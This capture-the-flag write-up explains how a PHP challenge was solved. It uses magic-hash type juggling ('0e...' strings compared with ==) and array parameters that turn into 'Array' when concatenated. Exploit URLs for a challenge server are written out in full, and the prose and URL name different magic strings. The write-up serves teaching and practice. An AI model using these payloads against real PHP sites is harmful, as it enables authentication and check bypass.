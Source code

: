 # Piece Of Cake
> The original site was http://103.245.249.76:49155 but the site will likely be take down, the original file is:


```php
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 

$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
?> 
```

### Strategy
- We can see that the file includes "flag.php", and gives us back two different flags if we meet the conditionals. As it turns out, we get back two parts of a single flag.
- I’ll break this blog post down into the two separate areas that we have to solve in order to get the flag. We can see that each one is passed in as a query parameter, because of `$_GET['0'], $_GET['1']` and so on.

### $Flag1
- This first part is as follows: 
```htm1
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
```

- In short, we need to enter a string (as parameter “0”) where the md5 of the string is equivalent to the string itself.  Wait, what?
- That should be impossible (?), but the trick here is the == which is different than === (yes I know, computers are terrible).  PHP has two main comparison modes. The “loose” comparison mode, as shown on page 7 of [this presentation](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf), is easier for us to exploit.  Page 9 shows that if an operand “looks like” a number (for example, 0e12345), it will convert them and perform a numeric comparison. So, we’re looking for two strings that PHP will incorrectly interpret as numbers, specifically in scientific notation (“0e….").
- The md5 hash of `0e215962017` is `0e291242476940776845150308577824`, as seen [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md?fbclid=IwAR3a3sJnizCJZnrNVEqkcC-lVBeKdkIVZBmFkL7VWJ_MYdDKy6Rd715cdJs).
- So, if we plug in that string as our first parameter, we get the first part of our flag:

`http://103.245.249.76:49155/?0=0e1137126905`

![image](https://user-images.githubusercontent.com/93731698/175820279-6ddefd10-83ba-405d-a35e-72732ec86ded.png)

### $Flag2

Next up: 

```htm1
$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
```
- Another head-scratcher:  we need to find two parameters that are not equal to each other, yet when we hash a concatenation of a pre-determined salt, and the parameters, they equal each other.
- When I originally wrote the preceding sentence, I wrote “find two strings”… but that’s an assumption on my part.  We have to supply two parameters, they don’t need to be of type string.  In fact, we’ll get through this section by exploiting that assumption.
- You can try this code out at [writePHPonline](https://www.writephponline.com/):
```htm1
$salt = "something";
$str2[] = 1;
$str3[] = 2;

if ($str2 !== $str3) {
  echo "str2 is different from str3";
}

echo ($salt . $str2);
echo ($salt . $str3);
```
- If you run it, you’ll see that $str2 is considered different from $str3, so our first check passes.
- Then, when we concatenate a string with an array, the output is “somethingArray”.  Huh.  So PHP seems to be converting the array to the string “Array” and then concatenating it to the salt variable.
- That gives us our next bit of URL:
`http://103.245.249.76:49155/?0=0e1137126905&1[]=1&2[]=2`

![image](https://user-images.githubusercontent.com/93731698/175820568-c7c1d22c-f2fa-4987-84ee-61b0e342bfc7.png)

### $Flag:

![image](https://user-images.githubusercontent.com/93731698/175820756-96a99dcf-41c1-4483-8bb7-4c261b38f12f.png)

Flag: `FPTUHACKING{StR1Ngs_c0nCaTeNaT1oN_1s_EaSy_!!!}`

# References: 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md?fbclid=IwAR3a3sJnizCJZnrNVEqkcC-lVBeKdkIVZBmFkL7VWJ_MYdDKy6Rd715cdJs, here will explain clearly `PHP Juggling type and magic hashes`.




